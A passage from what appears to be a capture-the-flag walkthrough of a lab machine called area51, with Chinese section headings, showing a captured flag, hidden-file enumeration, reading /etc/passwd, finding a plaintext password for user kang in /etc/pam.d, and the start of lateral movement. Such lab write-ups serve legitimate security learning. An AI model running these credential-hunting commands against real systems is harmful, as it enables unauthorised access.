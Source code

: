 ```bash
             /o//oydNMm+:
              ```hMMNMNo-
               :/ydysso/
               -s/---/o`
               -++:--//++`
             `+:--------:o.

  FLAG = [ee11cbb19052e40b07aac0ca060c23ee]
roger@area51:~$
```

## 枚举
```bash
roger@area51:/opt$ find / -type f -name ".*" 2>/dev/null | grep -v  sys
/etc/skel/.bash_logout
/etc/skel/.profile
/etc/skel/.bashrc
/etc/cron.weekly/.placeholder
/etc/.pwd.lock
/etc/cron.daily/.placeholder
/etc/.hostname.swp
/etc/cron.d/.placeholder
/etc/cron.hourly/.placeholder
/etc/cron.monthly/.placeholder
/run/network/.ifstate.lock
/usr/share/dictionaries-common/site-elisp/.nosearch
/home/roger/.bash_logout
/home/roger/.profile
/home/roger/.bashrc
roger@area51:/opt$
```


```bash
roger@area51:/etc/skel$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
roger:x:1001:1001:,,,:/home/roger:/bin/bash
kang:x:1000:1000:,,,:/kang:/bin/bash
roger@area51:/etc/skel$ find / -type f -name "kang" 2>/dev/null
/etc/pam.d/kang
roger@area51:/etc/skel$ cat /etc/pam.d/kang
k4ng1sd4b3st
roger@area51:/etc/skel$
```

## 横向移动
```bash
kang@area51:~$ ls -al
total 16
drwxrwx---  3 kang kang 4096 Apr 19 22:56 .
drwxr-xr-x 19 root root 4096 Dec 19  2021 ..
lrwxrwxrwx  1 root root    9 Dec 19  2021 .bash_history -> /dev/null
drwxr-xr-x  3 kang kang 4096 Dec 21  2021 .local
-rw-r--r--  1 root root    8 Apr 19 22:56 weComeInPeace.sh
kang@area51:~$
```
